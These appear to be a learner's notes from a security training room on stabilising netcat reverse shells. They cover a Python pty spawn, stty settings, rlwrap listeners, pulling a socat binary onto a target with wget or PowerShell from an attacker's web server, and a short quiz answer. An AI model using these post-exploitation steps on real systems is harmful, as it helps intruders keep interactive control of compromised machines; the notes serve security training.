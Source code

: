 - `nc 10.10.10.11 8080`











## Task 5

Connected to a shell and pressing `Ctrl + C` kills the non-interactive 
shell connection which often have strange formatting errors. _Netcat shells
are truly processes running inside a terminal_. Stabilizing these shells on Linux system is doable but on a Windows system is harder to do.

### Stabilizing Shell 1

Python is installed by default on Linux machines (Mac as well).

- step 1: `python -c 'import pty;pty.spawn("/bin/bash")'` which spawns a bash shell, sometimes the Python version needs to be specified.
- step 2: `export TERM=xterm` which gives us access to term commands like `clear`
- step 3: background the shell `Ctrl + Z` and on our terminal we use `stty raw -echo; fg` as this turns off our own terminal echo (and other commands) and foregrounds the shell
- if the shell dies you won't see input, to fix this type `reset` + Enter


### Stabilizing Shell 2

This technique uses `rlwrap` which is a program that gives access to history,
tab completion and arrow keys once you get a shell. This program is not installed by default on Kali, to install `sudo apt install rlwrap`.

- syntax: `rlwrap nc -lvnp <PORT>` this adds functionality & stability to our shell


### Stabilizing Shell 3 

Socat technique is for Linux shells (no benefit for Windows over netcat).
This method requires file transfer of a socat static binary to a target machine,
the process is:

- use a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`)
- on target machine use netcat shell to download the file (`wget <Local IP>/socat -O /tmp/socat`)
- Windows Powershell: `Invoke-WebRequest -uri <Local IP>/socat.exe -outfile C:\\Windows\temp\socat.exe` 
- in another terminal, to change terminal tty size `tty rows <NUM> cols <NUM>` which changes the terminal size



Question: _How would you change your terminal size to have 238 columns?_

- stty cols 238
